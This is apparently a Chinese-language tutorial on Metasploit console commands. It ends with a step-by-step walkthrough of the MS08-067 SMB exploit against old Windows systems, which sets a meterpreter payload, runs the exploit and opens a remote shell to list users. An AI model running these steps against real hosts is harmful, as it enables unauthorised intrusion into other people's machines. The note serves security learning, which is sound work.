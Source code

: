 通过 `info` 查看信息，例如支持的选项，或通过 `show options` 直接显示选项，直接 `options` 也可以
通过 `set` 设置选项


**unset**

```
> unset all
```

**setg**

设置全局参数

```
msf6 > set LHOST 192.168.1.101
msf6 > set RHOSTS 192.168.1.0/24
msf6 > set RHOST 192.168.1.10
```

**save**

保存当前环境和设置


**show**

```
> show exploits
> show auxiliary
> show payloads
> show options
> show targets # 目标版本
> show advanced
> show encoders
```

**payload**

bind tcp
reverse tcp


## 漏洞利用

## MS08-067

windows 2000, xp, vista, 2003, 2008


rpc, 远程代码执行


Mac 虚拟机：UTM

**攻击过程**

```
msf6 > search ms08_067
msf6 > use exploit/windows/smb/ms08_067_netapi
msf6 exploit(windows/smb/ms08_067_netapi) > show payloads
msf6 exploit(windows/smb/ms08_067_netapi) > set payload windows/meterpreter/bind_tcp
msf6 exploit(windows/smb/ms08_067_netapi) > show options
msf6 exploit(windows/smb/ms08_067_netapi) > set RHOST x.x.x.x
msf6 exploit(windows/smb/ms08_067_netapi) > show targets
msf6 exploit(windows/smb/ms08_067_netapi) > set target 34
msf6 exploit(windows/smb/ms08_067_netapi) > options
msf6 exploit(windows/smb/ms08_067_netapi) > exploit  #启动攻击
meterpreter> pwd
meterpreter> shell
C:\WINDOWS\system32> net user
```
